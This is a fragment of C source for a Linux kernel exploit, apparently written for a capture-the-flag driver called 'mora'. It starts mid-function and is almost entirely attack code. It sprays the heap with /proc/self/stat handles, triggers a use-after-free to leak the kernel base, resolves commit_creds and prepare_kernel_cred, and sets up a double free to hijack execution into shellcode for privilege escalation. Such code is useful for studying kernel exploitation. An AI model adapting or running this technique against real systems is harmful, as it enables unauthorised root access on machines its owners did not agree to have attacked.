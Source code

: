```exploit.c
  char outbuf[0x200];
  int seqfd;
  int tmpfd[0x90];
  memset(inbuf, 0, 0x200);
  memset(outbuf, 0, 0x200);
  printf("[.] pid: %d\n", getpid());
  printf("[.] NIRUGIRI at %p\n", &NIRUGIRI);
  printf("[.] shellcode at %p\n", &shellcode);
  int fd = open(DEV_PATH, O_RDWR);
  if(fd <= 2){
    perror("[ERROR] failed to open mora");
    exit(0);
  }
  clear_all_records(fd);

  struct record r;
  struct record r1 = {
    .result = 1,
    .date = "1930/03/12",
  };

  // heap spray
  puts("[.] heap spraying...");
  for (int ix = 0; ix != 0x90; ++ix)
  {
    tmpfd[ix] = open("/proc/self/stat", O_RDONLY);
  }

  // leak kernbase
  puts("[.] generating kUAF...");
  register_record(fd, r1.result, r1.date);
  clear_record(fd);
  if((seqfd = open("/proc/self/stat", O_RDONLY)) <= 0){
    errExit("open seq_operations");
  }
  fetch_record(fd, 1, &r);

  const ulong _single_start = *((long*)r.date);
  const ulong kernbase = _single_start - 0x194090;
  printf("[+] single_start: %lx\n", _single_start);
  printf("[+] kernbase: %lx\n", kernbase);
  commit_creds = kernbase + 0x06cd00;
  printf("[!] commit_creds: %lx\n", commit_creds);
  prepare_kernel_cred = kernbase + 0x6d110;
  printf("[!] prepare_kernel_cred: %lx\n", prepare_kernel_cred);

  // double free
  struct record r2 = {
    .result = 3,
  };
  *((ulong*)r2.date) = &shellcode;
  clear_record(fd);
  register_record(fd, r2.result, r2.date);

  // get RIP
  save_state();
  for (int ix = 0; ix != 0x80; ++ix){
    close(tmpfd[0x90 - 1 - ix]);
  }
  read(seqfd, inbuf, 0x10);

  return 0;
}
```